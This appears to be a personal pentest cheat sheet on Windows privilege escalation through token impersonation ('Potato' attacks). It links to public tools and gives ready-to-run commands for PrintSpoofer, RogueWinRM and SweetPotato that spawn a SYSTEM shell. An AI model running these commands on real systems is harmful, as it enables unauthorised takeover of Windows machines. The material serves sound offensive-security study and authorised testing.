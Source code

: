 Difference in various Potato attacks : https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html

Any process holding this privilege can impersonate (but not create) any token for which it is able to gethandle.
You can get a privileged token from a Windows service (DCOM) making it perform an NTLM authentication against the exploit, then execute a process as SYSTEM.
Exploit it with [juicy-potatato](https://github.com/ohpe/juicy-potato) or [RougueWinRM](https://github.com/antonioCoco/RogueWinRM) (need winRM disabled) or [SweetPotato](https://github.com/CCob/SweetPotato) or [PrintSpoofer](https://github.com/itm4n/PrintSpoofer).


Some commands for these tools:

1. **PrintSpoofer** (My favorite) : ```PrintSpoofer.exe -i -c powershell```
![demo](https://user-images.githubusercontent.com/81341961/148654464-e8ba8203-5e7c-4ee2-a810-4e2f951381e6.gif)
2. **RogueWinRM** : ```RogueWinRM.exe -p C:\windows\system32\cmd.exe``` or ```RogueWinRM.exe -p C:\windows\system32\cmd.exe -a "powershell"```
3. **SweetPotato** : ```SweetPotato.exe -a whoami```
4. **Juicy Potato** : Haven't practiced with this yet.
